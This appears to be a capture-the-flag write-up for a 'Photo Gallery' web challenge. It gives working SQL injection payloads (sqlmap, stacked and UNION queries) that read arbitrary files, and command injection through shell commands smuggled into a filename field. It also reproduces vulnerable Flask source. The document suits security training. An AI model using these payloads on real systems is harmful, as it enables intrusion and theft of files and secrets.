


# Photo Gallery

There are 3 flags to capture from 0-2.



## FLAG1

Three images are shown, the third does not load. ```Space used: 0 total``` at the bottom is also peculiar.

The image sources show that they are fetched via a GET argument on ```/fetch```:

```


```

Navigating directly to ```fetch?id=1``` and ```fetch?id=2``` returns the raw encodings of the images:


> ����JFIF�����ExifMM*JR(1Z�ih��paint.net 4.1��zzUNICODECREATOR: gd-jpeg v1.0 (using IJG JPEG v62), quality = 90 ��C (...)

Scripts may be injectable here since it is displaying the raw encoding in HTML, if access to uploading or altering images is achieved (possible flag?).

Navigating directly to ```fetch?id=3``` yields a 500 error:


> Internal Server Error
> The server encountered an internal error and was unable to complete your request. Either the server is overloaded or there is an error in the application.

However, navigating to further ids beyond 1,2,3 e.g. ```fetch?id=4```, ```fetch?id=5```, ```fetch?id=100```, ```fetch?id=0```, ```fetch?id=-1``` yields 404s:

> Not Found
> The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.

This is interesting and likely indicates the file at ```id=3``` does exist, but cannot be read for whatever reason, maybe lack of permissions or the id of 3 somehow causes an error on the backend code (probably contains a flag).

Testing this query further, using letters e.g. ```fetch?id=a```, ```fetch?id=zzz``` yields 500s.

This indicates ```fetch?id=``` may use a SQL query and parameter ```id``` is of type ```INT```.

Testing SQL comments injections ```fetch?id=1--%20comment``` and ```fetch?id=1#comment``` does not cause any errors and returns the same output. Likewise, trying AND injections e.g. ```fetch?id=1 AND 1=1``` returns the same output, and ```fetch?id=1 AND 1=2``` yields a 404. This confirms that ```fetch?id=``` uses a SQL query and is MySQL (only MySQL accepts # comments). This comment injection succeeding also indicates that the id parameter is either at the end of the SQL query or what is after the comment is inconsequential, which may or may not be important.

Running ```sqlmap``` on ```fetch?id=1``` with option ```--dbs``` finds:

```
sqlmap identified the following injection point(s) with a total of 653 HTTP(s) requests:
---
Parameter: id (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 time-based blind - Parameter replace
    Payload: id=(CASE WHEN (1767=1767) THEN SLEEP(5) ELSE 1767 END)
---
web server operating system: Linux Ubuntu
web application technology: Nginx 1.14.0
back-end DBMS: MySQL >= 5.0.12
available databases [4]:
[*] information_schema
[*] level5
[*] mysql
[*] performance_schema
```

The DBMS is MySQL and a blind time-based injection vulnerability is found in the ```id=``` parameter, which is leveraged to find the databases. All databases except ```level5``` look standard. So looking further, running ```sqlmap``` with options ```-D level5``` and ```--dump``` finds:

```
Database: level5
Table: photos
[3 entries]
+----+------------------+--------+------------------------------------------------------------------+
| id | title            | parent | filename                                                         |
+----+------------------+--------+------------------------------------------------------------------+
| 1  | Utterly adorable | 1      | files/adorable.jpg                                               |
| 2  | Purrfect         | 1      | files/purrfect.jpg                                               |
| 3  | Invisible        | 1      | FLAG1                                                            |
+----+------------------+--------+------------------------------------------------------------------+

Database: level5
Table: albums
[1 entry]
+----+---------+
| id | title   |
+----+---------+
| 1  | Kittens |
+----+---------+
```

#### FLAG1 is captured.

## FLAG0

These tables reveal how the SQL query is likely structured. The backend receives an id parameter from ```fetch?id=[]```, which is then used in a ```WHERE``` clause i.e. ```WHERE id=[]```. The filename is likely selected in this query, which is then used to open the file at the filename and return the contents. This explains why ```fetch?id=3``` yielded a 500 error, since there is no file with a name of ```FLAG1``` and therefore failed when trying to open that filename. Also, previously successfully injecting comments indicates that this ```WHERE id=[]``` clause is possibly at the end of the query.

Therefore, the query probably looks something like this:

```
SELECT filename FROM photos WHERE id=[]
```

This is significant as it is shows the potential of stacked SQL queries i.e. it may be possible to make a query like ```SELECT filename FROM photos WHERE id=%d; INSERT into photos(...) values(...) #```

Testing ```fetch?id=1;INSERT into photos(id,title,parent,filename) values(4,'hello world',1,'files/adorable.jpg')``` and navigating to ```fetch?id=4``` didn't work; 404 is still returned . However, adding the ```COMMIT``` command to the end i.e. ```fetch?id=1;INSERT (...); COMMIT #``` succeeds. Navigating to ```fetch?id=4``` now returns the .jpg text where a 404 was previously returned, proving the existence of a stacked query injection vulnerability.

Trying ```fetch?id=1;UPDATE photos set title='<script>alert(1)</script>' WHERE id=1; COMMIT``` and ```fetch?id=1;UPDATE albums set title='<script>alert(2)</script>' WHERE id=1; COMMIT #``` defaced the website, but did not succeed in XSS as the photo title is inserted as a HTML text node, and album title is encased in a ```<h2>``` element:



Injecting scripts into images is only possible if access is gained in editing or uploading images. Only filenames in the DB is available. Discovering a stacked query injection is very significant, but what to do with it in terms of this CTF...

Getting some hints:

##### Flag 0:

* Consider how you might build this system yourself. What would the query for fetch look like?
* Take a few minutes to consider the state of the union
* This application runs on the uwsgi-nginx-flask-docker image

This seems to convey that a ```UNION``` based SQL injection is also possible. It also says that it runs on Docker, Flask, nginx, and uWSGI, which gives some insight as to what files may exist on the server.

So looking into this, trying ```fetch?id=1 UNION SELECT null``` yielded no errors and returned the same .jpg text, meaning this ```UNION``` injection succeeded.

As found earlier, the full SQL query used looks like ```SELECT filename FROM photos WHERE id=[]```, so it is selecting the filename to be opened and returned. And since it was revealed that the webapp runs on Docker, it is possible that a Dockerfile exists (among other files) and can be exposed with a ```UNION``` injection.

Trying ```fetch?id=1 UNION SELECT 'Dockerfile'``` didn't work. It's likely the case that only the first row in the values returned from the query is being used. E.g. this query returns

```
+---------------------+
| filename            |
+---------------------+
| files/adorable.jpg  |
| Dockerfile          |
+---------------------+
```

Only ```files/adorable``` used, but ```Dockerfile``` is the one desired.

So, the query can be reordered to put the injected filename at the top via the ```ORDER BY filename (DESC|ASC)``` clause i.e. ```fetch?id=1 UNION SELECT 'Dockerfile' FROM photos ORDER BY filename ASC```

> FROM tiangolo/uwsgi-nginx-flask:python2.7 WORKDIR /app RUN apt-get update RUN DEBIAN_FRONTEND=noninteractive apt-get install -y mysql-client mysql-server default-libmysqlclient-dev build-essential ADD requirements.txt /app/ RUN pip install --trusted-host pypi.python.org -r requirements.txt ADD . /app

Another option is to force the query to return only the result of the ```UNION``` injection by making the ```WHERE id=``` portion of the query return nothing i.e. ```Dockerfile``` should be the only row returned and thus fed into the file open function. It is known that rows where ```id``` is greater than ```4``` do not exist. Leveraging this, ```fetch?id=9 UNION SELECT 'Dockerfile'``` will return the single row containing ```Dockerfile``` since no rows exist where id=9. This also succeeds in exposing the Dockerfile.

Open ```requirements.txt``` as seen in the Dockerfile via ```fetch?id=9 UNION SELECT 'requirements.txt'``` shows:

> Flask mysqlclient pycrypto

Nothing special, but confirms that any file any be read with this query.

```tiangolo/uwsgi-nginx-flask:python2.7``` in the Dockerfile looks interesting, and Googling it leads to a Github repo at github.com/tiangolo/uwsgi-nginx-flask. Reading through the repo shows many potential files that likely exist on the server. The main Flask Python script is named as ```main.py``` by this repo.

Try to read this Flask script ```main.py``` with the query ```fetch?id=9 UNION SELECT 'main.py'``` successfully returns:

```
<html><head></head><body>from flask import Flask, abort, redirect, request, Response
import base64, json, MySQLdb, os, re, subprocess

app = Flask(__name__)

home = '''
		<title>Magical Image Gallery</title>
		<h1>Magical Image Gallery</h1>
$ALBUMS$
'''

viewAlbum = '''
		<title>$TITLE$ -- Magical Image Gallery</title>
		<h1>$TITLE$</h1>
$GALLERY$
'''

def getDb():
	return MySQLdb.connect(host="localhost", user="root", password="", db="level5")

def sanitize(data):
	return data.replace('&amp;', '&amp;').replace('&lt;', '&lt;').replace('&gt;', '&gt;').replace('"', '"')

@app.route('/')
def index():
	cur = getDb().cursor()
	cur.execute('SELECT id, title FROM albums')
	albums = list(cur.fetchall())

	rep = ''
	for id, title in albums:
		rep += '<h2>%s</h2>\n' % sanitize(title)
		rep += '<div>'
		cur.execute('SELECT id, title, filename FROM photos WHERE parent=%s LIMIT 3', (id, ))
		fns = []
		for pid, ptitle, pfn in cur.fetchall():
			rep += '<div><br>%s</div>' % (pid, sanitize(ptitle))
			fns.append(pfn)
		rep += '<i>Space used: ' + subprocess.check_output('du -ch %s || exit 0' % ' '.join('files/' + fn for fn in fns), shell=True, stderr=subprocess.STDOUT).strip().rsplit('\n', 1)[-1] + '</i>'
		rep += '</div>\n'

	return home.replace('$ALBUMS$', rep)

@app.route('/fetch')
def fetch():
	cur = getDb().cursor()
	if cur.execute('SELECT filename FROM photos WHERE id=%s' % request.args['id']) == 0:
		abort(404)

	# It's dangerous to go alone, take this:
	# FLAG0

	return file('./%s' % cur.fetchone()[0].replace('..', ''), 'rb').read()

if __name__ == "__main__":
	app.run(host='0.0.0.0', port=80)
</body></html>
```

##### FLAG0 is captured.

## FLAG2

Looking through ```main.py```, some vulnerable non-parameterzied SQL queries are evident, which have already been exploited to reach this point. However, very significantly a system call is made with no input sanitation or validation in the ```Space used:``` portion of the webapp:

```
rep += '<i>Space used: ' + subprocess.check_output('du -ch %s || exit 0' % ' '.join('files/' + fn for fn in fns), shell=True, stderr=subprocess.STDOUT).strip().rsplit('\n', 1)[-1] + '</i>'
```

This vulnerable system call can be exploited via the filenames in the table. For example, changing the filename of the third image to ```;ls``` will change the system call to ```du -ch files/(...) files/(...) ;ls || exit 0;```. ```ls``` is executed and output reflected on the ```Space used: ``` line.

This is accomplished with the stacked query SQL injection as found earlier: ```fetch?id=1;UPDATE photos set filename=';ls' WHERE id=3; COMMIT #```

This query succeeds and the ```Space used:``` line on the homepage shows the output:

> Space used: uwsgi.ini

However, this output only shows the last line as indicated by the ```.rsplit('\n', 1)[-1]``` portion of the system call line in ```main.py```. The entire output can be seen rather than only the last line by calling ```;ls | tr "\n" " "```. This replaces newlines with spaces.

Now, ```fetch?id=1;UPDATE photos set filename=';ls | tr "\n" " "' WHERE id=3; COMMIT #``` shows the entire output:

> Space used: Dockerfile files main.py main.pyc prestart.sh requirements.txt uwsgi.ini

Any file on the filesystem can be located via ```;ls | tr "\n" " "``` and printed via ```;cat [FILENAME] | tr "\n" " "```, which is a likely route to finding a flag.

Calling ```cat``` on suspicious targets including ```/etc/passwd``` and ```/etc/shadow``` yielded nothing. Going through the hints states: ```Be aware of your environment```

So, try the read the environment variables via ```env``` i.e. ```fetch?id=1;UPDATE photos set filename='env | tr "\n" " "' WHERE id=3; COMMIT #``` which returns:

> Space used: PYTHONIOENCODING=UTF-8 UWSGI_ORIGINAL_PROC_NAME=/usr/local/bin/uwsgi SUPERVISOR_GROUP_NAME=uwsgi **FLAGS=["FLAG0", "FLAG1", "FLAG2"]** HOSTNAME=2fe9e014dc2c SHLVL=0 PYTHON_PIP_VERSION=18.1 HOME=/root GPG_KEY=C01E1CAD5EA2C4F0B8E3571504C367C218ADD4FF UWSGI_INI=/app/uwsgi.ini NGINX_MAX_UPLOAD=0 UWSGI_PROCESSES=16 STATIC_URL=/static UWSGI_CHEAPER=2 NGINX_VERSION=1.13.12-1\~stretch PATH=/usr/local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin NJS_VERSION=1.13.12.0.2.0-1\~stretch LANG=C.UTF-8 SUPERVISOR_ENABLED=1 PYTHON_VERSION=2.7.15 NGINX_WORKER_PROCESSES=1 SUPERVISOR_SERVER_URL=unix:///var/run/supervisor.sock SUPERVISOR_PROCESS_NAME=uwsgi LISTEN_PORT=80 STATIC_INDEX=0 PWD=/app STATIC_PATH=/app/static PYTHONPATH=/app UWSGI_RELOADS=0

#### FLAG2 is captured.

All flags captured
=====
